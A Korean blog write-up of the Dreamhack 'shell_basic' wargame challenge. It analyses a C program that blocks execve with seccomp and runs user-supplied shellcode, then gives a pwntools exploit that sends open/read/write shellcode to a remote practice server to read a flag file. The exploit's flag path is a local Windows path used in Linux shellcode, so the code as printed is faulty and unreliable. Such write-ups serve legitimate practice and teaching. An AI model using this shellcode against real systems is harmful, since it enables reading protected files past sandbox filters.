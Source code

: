 ```yaml
---
layout: single
title:  ""
categories: coding
tag: [python, blog, jekyll]
toc: true
author_profile: false
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


### C 코드 분석


```C



#include <fcntl.h>

#include <seccomp.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/prctl.h>

#include <unistd.h>

#include <sys/mman.h>

#include <signal.h>



void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}



void init() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);

    alarm(10);

}



void banned_execve() {

  scmp_filter_ctx ctx;

  ctx = seccomp_init(SCMP_ACT_ALLOW);

  if (ctx == NULL) {

    exit(0);

  }

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);



  seccomp_load(ctx);

}



void main(int argc, char *argv[]) {

  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   

  void (*sc)();

  

  init();

  

  banned_execve();



  printf("shellcode: ");

  read(0, shellcode, 0x1000);



  sc = (void *)shellcode;

  sc();

}

```


#### init() 함수 분석


입출력 버퍼를 비활성화 및 시간 초과를 검사한다.



위에서 정의하였던 alarm_handler()함수를 이용하여 10초 타이머를 설정한다.


#### banned_execve() 함수 분석


seccomp 필터 초기화 후, execve()함수와 execveat()함수를 차단하는 규칙을 지정한다.


#### main() 함수 분석


mmap함수로, 메모리를 할당한 다음, 사용자로부터 쉘 코드를 입력받아 할당된 메모리에 저장한다.



여기서 쉘 코드는 포인터로 변환되어 호출된다.



banned_execve()함수에서 execve()함수와 execveat()함수를 차단하였기 때문에 일반적인 경로와 인자를 지정하여 프로그램을 실행할 수 없다.


### pwn 코드 작성


```python

from pwn import *



p = remote('host3.dreamhack.games', 18037)

# 원격 서버를 대상으로 익스플로잇을 진행 → remote() 함수 사욛



context.arch = 'amd64'

# 익스플로잇 대상 아키텍쳐는 amd64



payload = ''

payload += shellcraft.open('C:/Users/dst78/Downloads/shell_basic/flag_name_is_loooooong')

payload += shellcraft.read('rax', 'rsp', 100)

payload += shellcraft.write(1, 'rsp', 100)

# 페이로드를 문제에서 지정한 경로로 지정

# 스켈레톤 코드는 open, read, write 순서이므로 해당 순서를 따라 코드 작성

# 파일의 위치는 문제에서 지정하였으므로 바로 open

# read 함수는 rax에 저장된 정보를 통해 syscall을 수행, rsp스택의 시작주소 기입, 크기는 상관 x

# write 또한 마찬가지로 작성



p.sendline(asm(payload))

p.interactive()

```

